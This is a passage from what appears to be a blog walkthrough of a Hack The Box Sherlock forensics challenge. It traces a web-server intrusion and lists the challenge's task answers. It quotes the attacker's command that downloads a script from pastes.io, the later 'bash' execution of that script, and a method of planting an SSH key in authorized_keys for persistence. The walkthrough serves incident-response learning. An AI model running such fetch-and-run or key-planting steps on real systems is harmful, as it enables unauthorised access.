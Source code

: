 This is where something new happens. The attacker once again uploads the zip file like they had previously and issues a command through a GET request, but this time the command is “wget https://pastes.io/raw/bx5gcr0et8”.

![](https://cdn-images-1.medium.com/max/2292/1*GNjjrZVowtHbx0KJY_c0tw.png)

The attacker is downloading something to the web server using the text sharing site “pastes.io”.
>  Task 7 Answer: pastes.io

Following the link in the wget, we land on a raw webpage containing the following text.

![](https://cdn-images-1.medium.com/max/2000/1*FYlyxj1zVLWQAvXc_8ZJ2A.png)

The attacker has uploaded a bash script to the web server that downloads another another text file from a separate link into the authorized ssh RSA keys before restarting the ssh service on the server. We’ll go ahead and hash this script file to add it to EDRs and other security controls later to detect any further attempts to use it.

![](https://cdn-images-1.medium.com/max/2000/1*cMG2vqYiu7ugmnK7Oy5LpA.png)
>  Task 8 Answer: 0dc54416c346584539aa985e9d69a98e
> EDIT: Task 8 was changed to ask for the file’s name
See the next task for the appropriate answer

We’ll go ahead and following the link to the other file used in the first script the attacker uploaded. Going to that webpage, we’re once again met with raw text.

![](https://cdn-images-1.medium.com/max/3354/1*ZI42hbt2-jw0ORotDRalOg.png)

What’s happened is the attacker has successfully uploaded a known RSA key to the authorized ssh keys on the web server. Doing this enables them to connect to the web server over ssh using the matching private key, granting persistence.

We’ll hash this file as well to add to our filters.

![](https://cdn-images-1.medium.com/max/2000/1*2yJD9IeQuyqP15IY6UhW0A.png)
>  Task 9 Answer: hffgra4unv

Reviewing the previous file we analyzed, we can see that the new SSH key was being append to the keys stored in /home/ubuntu/.ssh/authorized_keys.
>  Task 10 Answer: /home/ubuntu/.ssh/authorized_keys

Looking into MITRE’s ATT&CK Matrix, we find a TTP that matches up with the attacker’s actions: SSH Authorized Keys (T1098.004) under Account Manipulation in the Persistence column.

![](https://cdn-images-1.medium.com/max/2000/1*oyg908Qvle7Ucj12oVc_Bg.png)
>  Task 11 Answer: T1098.004

**For those of you just here for the answers to the Sherlock, you can stop here. However, I want to dive a bit deeper into the actual actions of the attacker after establishing persistence as well as possible approaches to remediation the client can perform during recovery efforts.**

## Post-Compromise

The attacker proceeds deletes and reuploads the rce_api_extension.zip file once more. They then issue the command “bash bx5gcr0et8”, executing the shell script they downloaded from the first pastes.io link. This causes the planted public key to be added to /.ssh/authorized_keys and the ssh service to restart.
